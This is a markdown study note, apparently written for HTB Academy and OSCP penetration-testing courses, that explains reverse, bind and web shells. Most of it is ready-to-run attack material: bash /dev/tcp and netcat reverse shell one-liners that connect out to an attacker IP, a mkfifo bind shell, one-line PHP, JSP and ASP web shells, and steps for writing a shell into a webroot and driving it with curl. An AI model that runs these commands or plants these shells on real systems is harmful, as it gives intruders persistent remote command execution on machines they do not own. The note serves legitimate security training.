

## Types of shells
---
There are 3 main types of shells:
- Reverse Shells
- Bind Shells
- Web Shells

### Reverse Shells
<hr>

- It is the most common and easiest.
- How it works?
    1. We open a netcat listner on our attack machine.
    2. We execute a reverse shell command on the victim machine and connect it back to our listening port.
    3. Excute Bash or Powershell commands on the victim machine from our host.
- To open a nc listner:
    ```shell
    nc -nlvp 1234
    ```
    - l for listen mode
    - p for port
    - v for verbosity. So that we know when we receive a connection.
    - n to disable DNS resolution and only connect from/to IPs, to speed up the connection.
- To get a reverse shell, ***HTB version***:
    - Victim: Executes following on their machine
    ```shell
    bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
    ```
    - The IP and Port number are our attaching machine's.
    - Attacking machine:
    ```shell
    nc -nlvp 1234
    ```
    - More info here [HTB Shells](https://academy.hackthebox.com/module/77/section/725)
- Reverse shell, *OSCP Version*:
    - Victim: Sends their shell to attacker port
    ```shell
    nc -nv 10.10.10.10 1234 -e /bin/bash/
    ```
    or
    ```shell
    nc -nv 10.10.10.10 1234 -e cmd.exe
    ```
    - Attacker
    ```shell
    nc -nlvp 1234
    ```
---

### Bind Shells
---
- A host shell is binded to a port.
- We connect to that port from our attacking machine and execute commands.
- Bind shell, ***OSCP Version***:
    - Vicitim: Binds the shell or cmd to a port
    ```shell
    nc -nlvp 1234 -e /bin/bash/
    ```
    or
    ```shell
    nc -nlvp 1234 -e cmd.exe
    ```
    - Attacker: Connects to the port
    ```shell
    nc -nv 10.10.10.120 1234
    ```
    - We use the vicitm's IP and port here.
- Bind Shell, ***HTB Version***
    - Victim: 
    ```shell
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
    ```
    - Attacker
     ```shell
    nc -nv 10.10.10.120 1234
    ```
---
### Upgrading TTY
---
1. It is used for upgrading a shell to a fully functioning [TTY](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method-2-using-socat)

---

### Web Shells
---
- Web shell script is generally very short and easily memorized.
- Web shell would take our command through a GET request, execute it, and print it back to our screen.
- Common web shells scripts in common languages.
    - php
    ```php
    <?php system($_REQUEST["cmd"]); ?>
    ```
    - jsp
    ```jsp
    <% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
    ```
    - asp
    ```asp
    <% eval request("cmd") %>
    ```
#### Uploading Web shells
- Web shell script needs to be placed into the remote host's web directory \(web root) to execute the script.
- For this, we need to identify where the webroot is. Default webroot for common servers:
    | ***Web Server*** | ***Webroot*** |
    |------------------|---------------|
    | Apache           | /var/www/     |
    | Nginx            | /usr/share/nginx/html/ |
    | IIS              | c:\inetpub\wwwroot\ |
    | XAMPP            | C:\xampp\htdocs\ |
- Check these directories to see which webroot is in use and then use echo to write out our web shell. For example, if it is a Apache server in a linux host:
```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```
<hr>

#### Accessing Web Shell
- Once we write our web shell, we can either access it through a browser or by using cURL. 
- We can visit the shell.php page on the compromised website from our previous script, and use ?cmd=id to execute the id command: <br>


- Using cURL:
```bash
TheKamaraju1@htb[/htb]$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
- We can use different commands to get different information
- Web shells **bypass** any firewall as it will not open a new connection on a port but run on the web port on 80 or 443.
- Even if the compromised host is rebooted, the web shell would still work as it is persistent.